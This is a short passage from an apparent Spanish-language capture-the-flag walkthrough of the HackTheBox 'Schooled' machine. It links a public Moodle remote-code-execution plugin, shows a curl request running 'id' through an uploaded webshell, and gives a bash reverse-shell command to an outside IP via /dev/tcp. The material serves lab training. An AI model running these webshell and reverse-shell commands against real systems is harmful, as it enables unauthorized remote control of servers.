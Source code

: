 ![imagen10](/assets/images/Schooled/schooled10.png)

![imagen12](/assets/images/Schooled/schooled11.png)

En esta [página](https://github.com/HoangKien1020/Moodle_RCE/blob/master/rce.zip) encontramos un ejemplo para subir el archivo zip que nos solicita moodle.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Schooled$ curl "http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id"
uid=80(www) gid=80(www) groups=80(www)
```
```shell
gu3ro@parrot$ curl -G --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'" http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php
```
